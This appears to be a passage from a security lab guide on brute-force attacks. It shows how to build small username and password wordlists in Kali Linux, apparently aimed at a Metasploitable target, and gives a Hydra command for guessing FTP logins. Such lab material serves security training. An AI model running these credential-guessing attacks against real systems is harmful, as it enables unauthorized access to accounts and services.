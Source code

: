 
# 🔐 Task 2: Brute Force Attacks

## ✅ Preparation

Before conducting brute-force attacks, prepare the following:
Use common lists available in Kali Linux, such as `/usr/share/wordlists/rockyou.txt`
Or manually create a small custom list for testing:
- **Go to wordlist directory**
```bash
cd /usr/share/wordlists
```

- **Username list** 
```bash
touch userlist.txt
vim userlist.txt  
```
   - **Insert in userlist.txt**
```bash
admin
msfadmin
anonymous
user
test
```

- **Password list:** 
```bash
touch passlist.txt
vim passlist.txt
```
   - **Insert in passlist.txt:**
```bash
1234
msfadmin
ftp123
admin
password 
```

---

## 🔹 2.1 FTP Brute Force with Hydra
Command to attack FTP:
```bash
hydra -L userlist.txt -P passlist.txt ftp://<TARGET_IP> -V
```
